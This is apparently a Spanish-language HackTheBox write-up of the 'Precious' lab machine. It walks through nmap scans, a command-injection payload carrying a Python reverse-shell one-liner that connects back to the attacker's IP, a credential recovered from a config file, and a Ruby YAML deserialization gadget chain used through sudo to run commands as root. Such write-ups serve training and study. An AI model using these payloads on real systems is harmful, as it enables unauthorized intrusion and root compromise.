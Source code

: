 ```yaml
---
title: "Precious - HTB Writeup"
layout: single
excerpt: "Maquina HTB de dificultad facil, en esta maquina se ve como realizar un exploit a una aplicación web vulnerable usando una ejecución remota de comandos y un servidor local. La escalada de privilegios se basa despues en la explotación de un privilegio de sudo a un archivo .yml."
show_date: true
classes: wide
header:
  teaser: https://user-images.githubusercontent.com/63744631/221410290-68454d65-cce6-465a-8eaa-80437dcf79a6.png
  teaser_home_page: true
  icon: assets/images/icons/HackTheBox-icon.png
categories:
  - HackTheBox
  - Easy
  - Writeup
tags:
  - Web
  - yml
  - sudo

---
```


![Precious](https://user-images.githubusercontent.com/63744631/221415195-6ef69308-7a97-474e-9d99-aea922038d8a.png)

# Enumeración 🔎

Como siempre realizamos una pequeña enumeración rápida con el siguiente comando buscando cualquier puerto abierto.

```bash
nmap -sS  -T5 --min-rate 5000 -p- 10.129.228.98 -vvv -oG allports
```

Esta primera busqueda la utilizaremos para buscar rapidamente puertos abiertos para realizar un escaneo mas profundo.

```bash
nmap -sCV -T5 --min-rate 5000 -p22,80 10.129.228.98 -oN openports
```

Como podemos ver en el resultado de la busqueda tenemos una redirección en el puerto 80 por lo que si intentamos acceder desde el navegador no tendremos resolución DNS.

```bash
 # Nmap 7.93 scan initiated Sun Feb 26 11:29:01 2023 as: nmap -sCV -T5 --min-rate 5000 -p22,80 -oN openports 10.129.228.98
 Nmap scan report for 10.129.228.98
 Host is up (0.039s latency).

 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
 | ssh-hostkey:
 |   3072 845e13a8e31e20661d235550f63047d2 (RSA)
 |   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
 |_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
 80/tcp open  http    nginx 1.18.0
 |_http-server-header: nginx/1.18.0
 |_http-title: Did not follow redirect to http://precious.htb/
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Sun Feb 26 11:29:11 2023 -- 1 IP address (1 host up) scanned in 9.32 seconds
```

Para acceder se puede modificar el fichero hosts para que la resolución se realice en nuestro propio equipo y ganar acceso a la pagina.

![Webpage1](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226114005541.png)

## Explotación 🔑

Creamos un servidor de python3 en nuestro equipo para que la maquina pueda tener una URL funcional de la cual tendremos control. Si escribimos la IP y puerto de la maquina podremos acceder a este desde la pagina web y crear archivos pdf.

```bash
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.228.98 - - [26/Feb/2023 11:47:12] "GET / HTTP/1.1" 200 -
10.129.228.98 - - [26/Feb/2023 11:47:58] "GET /smbscan HTTP/1.1" 200 -
```

![Website2](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226115058616.png)

Podemos mirar dentro de las propiedades del archivo desde el propio navegador y se puede ver la aplicación con la que se ha creado.

![Propiedadespdf](./../assets/images/images/Machines/2023-02-26-Precious-HackTheBox-Writeup/image-20230226115632401.png)

Una vez conseguido el nombre de la aplicación podemos buscar si la versión que corre en el servidor tiene algun exploit, haciendo una busqueda en internet podemos encontrar que es vulnerable a command injection. Podemos hacer una pequeña prueba haciendo un sleep 5 si el servidor se demora en devolver la pagina web habremos confirmado que es vulnerable.

```python
http://10.10.14.67:8000/?name=#{'%20`sleep 5`'}
```

Al realizar la prueba la pagina tarda en devolvernos el pdf por lo que ya sabemos que es vulnerable a command injection buscando podemos entonces intentar cargar un exploit en este caso vamos a probar la oneline revershell de python3

```python
http://10.10.14.67/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.67",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

Una vez realizado el exploit tendremos acceso a una bash con el usuario ruby.

```bash
❯ sudo nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.228.98] 50120
$ whoami
whoami
ruby
$
```

El usuario que hemos adquirido haciendo la explotación no nos permite acceder a ninguna flag por lo que tendremos que realizar una escalada de privilegios para adquirirlas.

## Escalada de privilegios 🚀

Dentro de la maquina con ruby no podremos hacer mucho por lo que deberemos de investigar la maquina por si hubiera alguna contraseña en claro, buscando por el directorio web no se encuentra nada pero en la carpeta /home/ruby podemos encontrar una carpeta oculta .bundle el cual contiene la contraseña de henry.

```bash
$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:QXDXDXDXDXDXDXDXDXDH"
$
```

Con esta contraseña podemos acceder por SSH ya que comprobamos en la enumeración de la maquina que teniamos el puerto 22 abierto. 

```bash
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
f--------------------------3
henry@precious:~$
```

### Escalada a root

Para finalizar la maquina haremos la escalada a root lo primero que haremos sera comprobar si henry tiene algun privilegio de sudo. Podemos encontrar que puede utilizar los siguientes comandos:

```ruby
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Con este dato podemos ver que acciones realiza el archivo update_dependencies.rb

```ruby
# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

Como podemos ver en el archivo se utiliza el archivo dependencies.yml de la ruta en la que nos encontremos al no estar sanitizada y trabajar con una ruta relativa podemos utilizarlo para realizar nuestro ataque.

[Blind Remote Code Execution through YAML Deserialization (stratumsecurity.com)](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)

En concreto vamos a estar usando la ejecución remota de comandos que tenemos en el enlace de arriba. Generamos el archivo dependencies.yml pero en vez de realizar el sleep 600 que muestra enla poc vamos a utilizar el comando id para comprobar que se ejecuta como root.

#### dependencies.yml

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
```

Como vemos hemos ejecutado el comando que se encuentra en el campo git_set como root por lo que podemos spawnear una shell gracias a esto. Solo deberemos de cambiar la linea mencionada por /bin/bash -i

```bash
root@precious:/home/henry# cat /root/root.txt ; cat user.txt
4XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXd
fXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX3
root@precious:/home/henry#
```

